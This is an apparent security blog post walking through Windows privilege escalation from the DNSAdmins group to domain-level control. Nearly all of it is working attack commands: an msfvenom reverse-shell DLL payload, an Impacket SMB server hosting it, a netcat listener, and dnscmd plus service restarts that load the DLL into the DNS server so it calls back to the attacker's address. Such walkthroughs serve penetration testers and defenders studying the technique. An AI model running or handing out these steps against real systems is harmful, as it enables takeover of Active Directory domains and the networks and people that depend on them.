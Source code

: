 ```yaml
---
title: "Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection"
date: 2019-12-21
tags: [privesc, windows, dnsadmin, active-directory]
permalink: /windows-privilege-escalation-dnsadmin-to-domaincontroller/
---
```


Say you have compromised a Windows machine that provides Active Directory Directory Services to its users and have gained access as a user who is a part of the DNSAdmins group, you can use this method to privilege escalate.

Here, what we're doing is:
1. Making a dll payload that sends a reverse shell back to our machine with `msfvenom`.
2. Serving it using SMB Server to make it available to the Windows machine. (You can use any other way to transfer it to the remote machine, but be careful, it might get nuked by the Anti-Virus.) And, we will also setup a `netcat` listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

Checking if your user is a part of the DNSAdmins group:

```powershell
whoami /all
```

Now, on to the fun part:

#### Making the payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.211.55.13 LPORT=4444 --platform=windows -f dll > ~/windows/privesc/plugin.dll
```

Here, because the Windows machine is of 64 bit achitechture, we're using x64 payload.

#### Serving the file using SMB Server

We use `smbserver.py`, that comes with `Python3-Impacket`.

```powershell
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/windows/privesc/
```

In another terminal tab, set up a netcat listener to catch the reverse shell:

```powershell
nc -nvlp 4444
```

## Now, in the compromised Windows machine

#### Importing the plugin:

```powershell
dnscmd.exe myserver.local /config /serverlevelplugindll \\10.211.55.13\share\plugin.dll
```

#### Restarting the service:

```powershell
sc.exe stop dns
sc.exe start dns
```

Now, go back and check the netcat listener, you should have a reverse shell.
